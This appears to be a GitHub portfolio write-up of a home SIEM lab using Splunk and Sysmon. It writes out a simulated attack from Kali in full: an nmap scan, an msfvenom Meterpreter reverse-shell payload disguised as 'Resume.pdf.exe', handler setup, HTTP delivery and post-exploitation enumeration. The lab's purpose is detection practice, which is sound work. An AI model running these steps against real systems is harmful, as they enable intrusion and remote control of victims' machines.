 ## SIEM-Implementation-and-Log-Analysis

## Objective
This SIEM implementation lab focused on deploying and configuring a Security Information and Event Management (SIEM) solution using Splunk on a Windows virtual machine. The goal was to monitor and detect security threats by leveraging Sysmon logs, while simulating real-world cyber attacks from a Kali Linux virtual machine using Metasploit and MSFvenom. These simulations generated security events that were analyzed to improve incident response capabilities. The hands-on project provided practical experience in using Splunk Processing Language (SPL), parsing log data, and identifying attack patterns through parent-child process relationships.

## Skills Learned
Gained advanced understanding of SIEM concepts and their real-world application.
Demonstrated proficiency in analyzing, interpreting, and correlating network and host-based logs.
Developed the ability to generate and identify attack signatures and behavioral patterns.
Strengthened knowledge of network protocols and common security vulnerabilities.
Enhanced critical thinking and problem-solving skills in cybersecurity contexts.
Deepened understanding of the importance of filtering and prioritizing logs using EventCodes for effective threat detection.

## Tools Used
Splunk – Deployed as the SIEM platform for log ingestion, correlation, and security event analysis.
Kali Linux – Used for simulating attacks, including payload generation with MSFvenom and exploitation with Metasploit.
Telemetry Generation Tools – Employed to simulate realistic network traffic and create meaningful attack scenarios.
Windows Logging & Monitoring – Utilized Sysmon and native event logging to collect and analyze security-relevant data, with a focus on process creation events and parent-child relationships.

## Steps
1. Screenshots of Kali Linux Attack Simulation
Below are key command-line steps executed on the Kali Linux virtual machine during the simulated cyber attack targeting the Windows environment:
Nmap Port Scan
Objective: Identify open ports on the Windows target.
Command: nmap -sS -T4 -Pn <target-ip>
Result: Discovered open TCP port 3389 (RDP) indicating a potential remote access point.
![image alt](https://github.com/waqar172/Portfolio/blob/master/01.PNG?raw=true)

2. MSFvenom Payload Generation
Objective: Create a malicious executable to simulate initial access.
Command: msfvenom -p windows/meterpreter/reverse_tcp LHOST=<kali-ip> LPORT=4444 -f exe -o Resume.pdf.exe
Output: Generated a reverse shell payload disguised as a PDF file.
![image alt](https://github.com/waqar172/Portfolio/blob/master/02.PNG?raw=true)

3. Metasploit Exploit Setup
Objective: Configure the Metasploit listener to handle the reverse shell.
Commands: msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <kali-ip>
set LPORT 4444
run
![image alt](https://github.com/waqar172/Portfolio/blob/master/03.PNG?raw=true)

4. Python HTTP Server for Payload Delivery
Objective: Serve the malicious file to the Windows victim machine over HTTP.
Command: python3 -m http.server 9999 </br>
![image alt](https://github.com/waqar172/Portfolio/blob/master/04.PNG?raw=true)

5. HTTP Server Webpage Hosting the Payload
Objective: Deliver the malicious executable (Resume.pdf.exe) to the target Windows machine. The file is hosted via a simple Python HTTP server on port 9999.
Command used to start the server: python3 -m http.server 9999
Description:
The screenshot displays the HTTP server’s web interface as seen from a browser, listing the malicious payload (Resume.pdf.exe) and confirming it is accessible for download by the Windows target.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/05.PNG)

6. Evidence of Reverse Shell Connection on Windows Target
Objective: Confirm that the malicious payload (Resume.pdf.exe) executed successfully and established a reverse TCP connection from the Windows machine to the Kali Linux attacker's machine.
Screenshot 1: Established Connection via netstat
Command Run: netstat -anob
Description:
This screenshot captures the Windows command prompt output showing an active TCP connection from the Windows machine to the Kali Linux attacker's IP on port 4444. The connection is linked to PID 3588, indicating the process responsible for the communication.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/06.PNG)
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/07.PNG)

Screenshot 2: Process Linked to Payload in Task Manager
Description:
This screenshot displays the Services tab in Task Manager, verifying that PID 3588 belongs to the malicious file Resume.pdf.exe. This confirms that the payload generated via MSFvenom is actively running and responsible for the established reverse shell connection.
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/08.PNG)
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/09.PNG)

7. Meterpreter Session Established from Kali Linux
Objective: Confirm that the Metasploit handler successfully received a reverse TCP connection from the Windows target.
Screenshot 1: Metasploit Reverse Shell Connection
Description:
This screenshot captures the Metasploit console after executing the exploit command. The terminal output shows that the handler began listening on the specified local port and successfully received a reverse TCP connection, initiating Meterpreter session 4. The connection is from the Windows target IP back to the Kali Linux attack machine.
Screenshot
![image alt](https://github.com/waqar172/Portfolio/blob/a5ef6741f46824fddb30c88ba53411f5f909d237/10.PNG)

8. Post-Exploitation Commands Executed via Meterpreter
Objective: Simulate initial attacker enumeration activities following successful compromise.
Screenshot 2: Post-Exploitation Enumeration via shell
Description:
After invoking the shell command within the Meterpreter session, the Windows Command Prompt (cmd.exe) was accessed. Several commands were executed to gather system and user information:
net user – Lists user accounts on the system.
net localgroup – Displays local user groups.
ipconfig – Shows network interface configurations and IP address assignments.
Screenshot


